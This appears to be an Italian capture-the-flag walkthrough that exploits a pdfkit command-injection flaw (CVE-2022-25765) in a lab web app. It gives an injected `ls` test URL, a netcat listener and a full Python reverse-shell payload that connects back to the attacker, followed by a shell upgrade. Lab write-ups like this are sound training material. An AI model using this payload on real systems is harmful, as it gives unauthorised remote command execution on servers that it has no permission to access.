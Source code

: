 1) Entriamo nella pagina web
2) Apriamo un server web in locale:python3 -m http.server 8000

3) Digitiamo nel form di input della pagina web il nostro server in locale:
http://10.10.X.X:8000

4) Ci caricherà un pddf dentro la cartella Downloads e a quel punto lo analizziamo:
exiftool pymf3fspa0rrqrt4loe8zieoba5a7ah1.pdf

ExifTool Version Number         : 12.49
File Name                       : pymf3fspa0rrqrt4loe8zieoba5a7ah1.pdf
Directory                       : .
File Size                       : 28 kB
File Modification Date/Time     : 2022:12:03 12:59:10-05:00
File Access Date/Time           : 2022:12:03 12:59:14-05:00
File Inode Change Date/Time     : 2022:12:03 12:59:11-05:00
File Permissions                : -rw-r--r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.4
Linearized                      : No
Page Count                      : 1
Creator                         : Generated by pdfkit v0.8.6

5) Abbiamo scoperto che la web app utilizza  pdfkit per convertire la pagina web in pdf a questo punto cerchiamo una CVE che ci aiuti a sfruttare questo "servizio"
6) Troviamo la "CVE-2022-25765" ,  a questo punto sappiamo come sfruttare questa  Web Application  
7) Basta mettere l'indirizzo in questo modo: http://10.10.X.X:8000/?name=%20`ls`
8) Ora sfruttiamo questa vulnerabilità per ottenere una reverse shell
9) Apri una porta di ascolto: nc -lvp 1234
10) Inserisci questo url: http://10.10.X.X:8000/?name=%20`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'`

11) Aggiustiamo la shell: python3 -c 'import pty; pty.spawn("/bin/bash")'